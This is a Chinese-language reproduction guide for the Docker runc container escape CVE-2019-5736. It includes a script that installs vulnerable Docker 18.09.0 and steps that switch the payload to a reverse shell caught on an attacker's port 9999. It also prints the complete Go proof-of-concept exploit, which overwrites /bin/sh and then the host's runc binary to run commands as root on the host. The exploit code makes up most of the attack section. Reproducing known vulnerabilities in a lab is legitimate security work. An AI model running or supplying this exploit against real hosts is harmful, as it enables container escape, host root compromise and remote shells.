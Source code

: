 # Docker runC 漏洞导致容器逃逸 CVE-2019-5736

## 漏洞描述

Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改 runc 的二进制文件，从而获取到宿主机的 root 执行权限。要利用此漏洞，需要在容器内拥有 root (uid 0)。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5736
- https://github.com/Frichetten/CVE-2019-5736-PoC

## 漏洞影响

```
docker version <= 18.09.2 
RunC version <= 1.0-rc6
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_docker_18.09.0.sh` 安装 Docker 18.09.0：

```shell
#!/bin/bash
set -e
echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 18.09.0..."
VERSION_STRING=$(apt-cache madison docker-ce | grep 18.09.0 | head -n1 | awk '{print $3}')
if [ -z "$VERSION_STRING" ]; then
  echo "[*] Docker 18.09.0 not found"
  exit 1
fi
echo "[*] Found version: $VERSION_STRING"

echo "[*] Installing Docker version $VERSION_STRING ..."
sudo apt install -y docker-ce=$VERSION_STRING docker-ce-cli=$VERSION_STRING containerd.io --allow-downgrades

echo "[*] Locking version to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current version:"
docker --version
```

安装 runc：

```
wget https://github.com/opencontainers/runc/releases/download/v1.0.0-rc6/runc.amd64
sudo install -m 755 runc.amd64 /usr/local/sbin/runc
```

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609135136844.png)

## 漏洞复现

**注意，以下操作将覆盖 runc ，这会导致您的系统无法再运行 Docker 容器。请在虚拟环境中操作。**

通过 [该项目](https://github.com/Frichetten/CVE-2019-5736-PoC) ，我们将用 `#!/proc/self/exe` 覆盖容器中的 `/bin/sh` ，写入恶意命令。如果容器使用 `runc` 启动，`/proc/self/exe` 实际指向的就是容器运行时使用的 `runc` 二进制文件。那么，当在容器内执行 `/bin/sh` 时，将尝试修改 `/proc/self/exe` 的目标文件，即主机上的 `runc` 二进制文件。

将 payload 修改为执行反弹 shell，编译：

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609152613014.png)

新建一个容器，将编译好的 main 传入容器：

```
sudo docker run -itd --name=5736 ubuntu bash
docker cp ./main 5736:/
```

执行 main，覆盖 `/bin/sh`：

```
docker exec -it 5736 /bin/bash
root@a9b857df4cc6:/# ./main
[+] Overwritten /bin/sh successfully
```

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609154151387.png)

重新打开一个窗口，执行 `/bin/sh`，获取文件句柄，写入恶意命令：

```
docker exec -it 5736 /bin/sh
No help topic for '/bin/sh'
```

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609154322562.png)

查看之前的窗口，此时已经执行成功：

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609154420443.png)

退出当前容器，重新进入，触发恶意命令：

```
docker exec -it 5736 /bin/bash
```

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609154631151.png)

攻击机监听 9999 端口：

![](images/Docker%20runC%20漏洞导致容器逃逸%20CVE-2019-5736/image-20250609154731981.png)

## 漏洞 POC

- https://github.com/Frichetten/CVE-2019-5736-PoC

```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
	"flag"
)


var shellCmd string

func init() {
	flag.StringVar(&shellCmd, "shell", "", "Execute arbitrary commands")
	flag.Parse()
}

func main() {
	// This is the line of shell commands that will execute on the host
	var payload = "#!/bin/bash \n" + shellCmd
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			fmt.Println("[+] The command executed is" + payload)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```

## 漏洞修复

- 升级至最新版本 https://docs.docker.com/engine/release-notes/
